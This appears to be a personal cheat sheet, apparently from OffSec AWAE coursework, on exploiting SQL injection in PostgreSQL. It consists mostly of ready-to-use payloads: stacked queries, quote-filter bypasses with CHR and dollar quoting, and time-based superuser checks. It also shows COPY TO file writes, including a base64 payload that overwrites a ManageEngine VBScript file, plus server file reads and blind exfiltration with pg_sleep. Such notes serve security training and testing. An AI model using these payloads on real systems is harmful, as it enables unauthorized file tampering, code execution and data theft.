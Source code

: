 # PostgreSQL

### Notes

- String manipulation functions: https://www.postgresql.org/docs/14/functions-string.html
- Postgres SQL-injection attacks allow an attacker to perform **stacked queries**. This means that we can use a query terminator character in our payload (;), and inject a completely new query into the original vulnerable query string. This makes exploitation much easier since neither the injection point nor the payload are limited by the nature of the vulnerable query.

### Checklist

- [x] Check if user is DBA: `SELECT current_setting('is_superuser'); //'on' or 'off'`

### Quoted String Bypass

**Piping**

You can select individual characters using their code points (numbers that represent characters) and concatenate them together using the double pipe (||) operator.

> Note: This does not work for all SQL statements. See below for further bypasses.

```
amdb=#SELECT CHR(65) || CHR(87) || CHR(65) || CHR(69);
 ?column?
----------
 AWAE
(1 row)
```

**Dollar-quoted String Constants**

[Lexical Structure](https://www.postgresql.org/docs/14/sql-syntax-lexical.html) in PostgreSQL allows other methods to represent strings. One is support for dollar-quoted string constants. Two dollar characters ($$) can be used as a quote (') substitute by themselves, or a single one ($) can indicate the beginning of a "tag". The tag is optional, can contain zero or more characters, and is terminated with a matching dollar ($). If used, this tag is then required at the end of the string as well:

```
SELECT 'AWAE';
SELECT $$AWAE$$;
SELECT $TAG$AWAE$TAG$;

CREATE TEMP TABLE AWAE(offsec text);INSERT INTO AWAE(offsec) VALUES ($$test$$);
COPY AWAE(offsec) TO $$C:\Program Files (x86)\PostgreSQL\9.2\data\test.txt$$;

COPY 1

Query returned successfully in 201 msec.
```

### Time-based Injection

Check if executing as DBA:
```
SELECT+case+when+(SELECT+current_setting($$is_superuser$$))=$$on$$+then+pg_sleep(10)+end;--+
```

### Write to a File

```
COPY (select $$awae$$) to <file_name>
COPY (select $$awae$$) to $$C:\pwnd.txt$$
```
> Postgres COPY TO function does not support newline control characters in a single SELECT statement.
> Use a base64 encoded, then URL encoded string to reliably write file contents. If the URL query string will exceed the max URL length (2048 characters), try convert method to POST.

Example:

```
copy (select convert_from(decode($$B64_URL_ENCODED_PAYLOAD$$,$$base64$$),$$utf-8$$)) to $$C:\\Program+Files+(x86)\\ManageEngine\\AppManager12\\working\\conf\\\\application\\scripts\\wmiget.vbs$$;
```

1. We need to use base64 encoding to avoid any issues with restricted characters within the COPY TO function.
2. We also need to URL encode the payload so that nothing gets mangled by the web server itself.
3. Finally, we need to use the `convert_from` function to convert the output of the decode function to a human-readable format to be stored in the destination file.

### Read a File

```
DROP TABLE IF EXISTS awae;
CREATE temp table awae (content text);
COPY awae FROM $$c:\awae.txt$$;
SELECT content FROM awae;
DROP TABLE awae;
```

**Exfiltrating data (Blind)**

```
create+temp+table+awae+(content+text);copy+awae+from+$$c:\awae.txt$$;select+case+when(ascii(substr((select+content+from+awae),1,1))=104)+then+pg_sleep(10)+end;--+
```
